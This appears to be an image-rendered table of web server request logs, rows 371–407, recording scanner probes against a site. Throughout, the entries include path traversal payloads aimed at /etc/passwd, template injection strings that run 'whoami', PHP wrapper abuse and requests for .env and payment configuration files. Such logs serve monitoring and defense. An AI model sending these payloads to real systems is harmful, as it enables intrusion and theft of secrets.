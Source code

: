 |  371 |                     1 | GET /debug?xss={{constructor.constructor('whoami')()}} HTTP/1.1                                                      |
|  372 |                     1 | GET /test.php?test=whoami HTTP/1.1                                                                                   |
|  373 |                     1 | GET /iap/validation_keys.env HTTP/1.1                                                                                |
|  374 |                     1 | GET /kyc/business_verification.json HTTP/1.1                                                                         |
|  375 |                     1 | GET /kyc/corporate_rules.yaml HTTP/1.1                                                                               |
|  376 |                     1 | GET /marketplace/payment_split_rules.json HTTP/1.1                                                                   |
|  377 |                     1 | GET /marketplace/payout_schedule.json HTTP/1.1                                                                       |
|  378 |                     1 | GET /mobile/checkout_sdk.json HTTP/1.1                                                                               |
|  379 |                     1 | GET /nft/drop_funding.yaml HTTP/1.1                                                                                  |
|  380 |                     1 | GET /ngo/payout_rules.yaml HTTP/1.1                                                                                  |
|  381 |                     1 | GET /p2p/conditions.yaml HTTP/1.1                                                                                    |
|  382 |                     1 | GET /underwriting/policies.yaml HTTP/1.1                                                                             |
|  383 |                     1 | GET /pricing/tiers.json HTTP/1.1                                                                                     |
|  384 |                     1 | GET /release_schedules.yaml HTTP/1.1                                                                                 |
|  385 |                     1 | GET /risk/merchant_profile.json HTTP/1.1                                                                             |
|  386 |                     1 | GET /saas/billing_config.json HTTP/1.1                                                                               |
|  387 |                     1 | GET /saas/invoice_engine.env HTTP/1.1                                                                                |
|  388 |                     1 | GET /saas/subscription_policies.yaml HTTP/1.1                                                                        |
|  389 |                     1 | GET /safehold/payment_conditions.json HTTP/1.1                                                                       |
|  390 |                     1 | GET /splitpay/beneficiaries.csv HTTP/1.1                                                                             |
|  391 |                     1 | GET /tipjar/config.env HTTP/1.1                                                                                      |
|  392 |                     1 | GET /tips/settings.json HTTP/1.1                                                                                     |
|  393 |                     1 | GET /plans/quota_limits.yaml HTTP/1.1                                                                                |
|  394 |                     1 | GET /?folder=../../../../etc/passwd HTTP/1.1                                                                         |
|  395 |                     1 | GET /?config=../../../../etc/passwd HTTP/1.1                                                                         |
|  396 |                     1 | GET /?asset=../../../../etc/passwd HTTP/1.1                                                                          |
|  397 |                     1 | GET /?template_file=../../../../etc/passwd HTTP/1.1                                                                  |
|  398 |                     1 | GET /?action=../../../../etc/passwd HTTP/1.1                                                                         |
|  399 |                     1 | GET /?callback=../../../../etc/passwd HTTP/1.1                                                                       |
|  400 |                     1 | GET /?data=../../../../etc/passwd HTTP/1.1                                                                           |
|  401 |                     1 | GET /?doc=../../../../etc/passwd HTTP/1.1                                                                            |
|  402 |                     1 | GET /?read=../../../../etc/passwd HTTP/1.1                                                                           |
|  403 |                     1 | GET /tpl?body={% print('whoami') %} HTTP/1.1                                                                         |
|  404 |                     1 | GET /?file=php://input HTTP/1.1                                                                                      |
|  405 |                     1 | GET /?path=php://temp HTTP/1.1                                                                                       |
|  406 |                     1 | GET /?page=....//....//....//etc/passwd HTTP/1.1                                                                     |
|  407 |                     1 | GET /?page=..%2f..%2f..%2fetc%2fpasswd HTTP/1.1                                                                      |